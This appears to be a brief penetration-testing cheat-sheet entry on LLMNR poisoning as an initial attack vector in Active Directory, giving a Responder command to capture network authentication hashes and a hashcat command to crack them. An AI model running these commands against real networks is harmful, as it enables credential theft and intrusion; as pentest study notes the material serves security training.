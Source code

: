 # AD Initial attack vector

## LLMNR poisoning

```
sudo responder -I <interface> -dwPv
# crack hash
hashcat -m 5600 <hash.txt> <wordlist>
```
